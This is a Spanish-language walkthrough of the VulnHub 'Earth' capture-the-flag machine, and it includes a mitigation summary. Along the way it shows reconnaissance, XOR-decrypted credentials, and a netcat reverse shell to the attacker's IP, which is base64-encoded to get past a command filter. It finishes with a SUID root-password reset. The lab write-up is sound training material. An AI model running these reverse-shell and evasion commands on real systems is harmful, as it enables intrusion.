 # CTF EARTH LOCAL  
**Objetivo:** Linux 192.168.131.130 (Earth Local)  

 <div style="text-align: center;">
  <img src="https://raw.githubusercontent.com/Zyanetralys/profile/refs/heads/main/planeterath.jpg" width="550" alt="Earth">
</div>

---

## SECUENCIA DE ATAQUE EXPLICADA  

### **FASE 1: PREPARACIÓN**  
```bash
ip a
```
> Verificamos nuestra IP local para identificar la interfaz en uso (eth0).  

```bash
netdiscover -i eth0
```
> Escaneamos la red para encontrar la IP objetivo. Resultado: **192.168.131.130**.  

---

### **FASE 2: RECONOCIMIENTO**  
```bash
sudo nmap -sV -sC -T4 192.168.131.130
```
> Escaneo de servicios y versiones con scripts básicos. Puertos encontrados:  
> - 22/tcp → SSH (OpenSSH 8.6)  
> - 80/tcp → HTTP (Apache 2.4.51)  
> - 443/tcp → HTTPS (Apache 2.4.51 con SSL y certificados para earth.local y terratest.earth.local)  

**Ajuste de /etc/hosts**  
```
192.168.131.130 earth.local terratest.earth.local
```
> Esto permite acceder por nombre de dominio en vez de IP.  

---

### **FASE 3: ENUMERACIÓN WEB**  
```bash
gobuster dir -u http://earth.local/ -w /usr/share/wordlists/dirb/common.txt
```
> Descubrimos `/admin` → Panel de login.  

```bash
gobuster dir -u https://terratest.earth.local/ -k -w /usr/share/wordlists/dirb/common.txt
```
> Detectamos `/robots.txt` que apunta a `/testingnotes.txt`.  

**Contenido notes:**  
- Cifrado usado: XOR  
- Usuario: `terra` (para el panel admin)  
- Archivo `testdata.txt` usado como clave de prueba.  

---

### **FASE 4: OBTENCIÓN CREDENCIALES**  
> Vamos a `testdata.txt` y lo usamos como **KEY** en [CyberChef](https://gchq.github.io/CyberChef/).  
> Método: XOR, salida Hex.  
> Desencriptamos los mensajes ocultos en la página principal de `earth.local`.  

**Resultado:**  
```
Usuario: terra  
Pass: earthclimatechangebad4humans
```

---

### **FASE 5: ACCESO INICIAL**  
> Entramos a `http://earth.local/admin` con credenciales obtenidas.  
> Tenemos un campo de ejecución de comandos como usuario `apache`.  

```bash
whoami
ls /var/earth_web
cat /var/earth_web/user_flag.txt
```
> Obtenemos **FLAG USER**.  

---

### **FASE 6: SHELL REVERSA**  
En máquina atacante:  
```bash
nc -lvnp 4444
```
> Ponemos un listener para recibir la conexión.  

En el panel web:  
```bash
echo 'nc -e /bin/bash 192.168.131.128 4444' | base64
```
> Convertimos el comando a Base64 para evadir el filtro.  

```bash
echo 'bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguMTMxLjEyOCA0NDQ0Cg==' | base64 -d | bash
```
> Decodificamos y ejecutamos → conexión establecida.  

Mejoramos la shell:  
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

---

### **FASE 7: ESCALADA DE PRIVILEGIOS**  
```bash
find / -perm -u=s 2>/dev/null
```
> Encontramos binario SUID `/usr/bin/reset_root`.  

- Lo analizamos con `ltrace` → requiere 3 ficheros inexistentes.  
- Creamos los ficheros:  
```bash
touch /dev/shm/kHgTFI5G
touch /dev/shm/Zw7bV9U5
touch /tmp/kcM0Wewe
```
- Ejecutamos de nuevo → contraseña root reseteada a `Earth`.  

```bash
su root
cat /root/root_flag.txt
```
> Obtenemos **FLAG ROOT**.  

---

## RESUMEN VULNERABILIDADES  
- **Credenciales en código fuente cifrado** (XOR)  
- **Panel admin** accesible sin restricciones de IP  
- **Ejecución remota de comandos**  
- **SUID vulnerable** que permite resetear contraseña root  

---

## MEDIDAS DE MITIGACIÓN  
- Eliminar credenciales de código  
- Restringir panel admin por IP  
- Eliminar binarios SUID innecesarios  
- Auditoría de cifrados y backups

---

## EVIDENCIAS  
- FLAG USER: `/var/earth_web/user_flag.txt`  
- FLAG ROOT: `/root/root_flag.txt`  
- Credenciales: `terra / earthclimatechangebad4humans`  
- Archivos clave: `testdata.txt`, `reset_root`

---

##MV
https://www.vulnhub.com/entry/the-planets-earth,755/

---
